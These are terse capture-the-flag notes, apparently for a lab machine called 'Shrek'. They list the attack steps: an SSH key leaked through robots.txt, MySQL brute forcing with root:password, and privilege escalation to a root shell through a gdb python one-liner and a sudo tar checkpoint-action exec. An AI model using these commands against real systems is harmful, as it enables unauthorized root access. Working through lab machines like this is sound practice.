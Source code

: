 Shrek

robots.txt --> id_rsa for shrek

replace with your ssh key quickly
`gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit`

`chown root check.sh`
`visudo`
`

ftp as `ftp:PASSWORD` from mysql brute forcing (root:password) --> `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`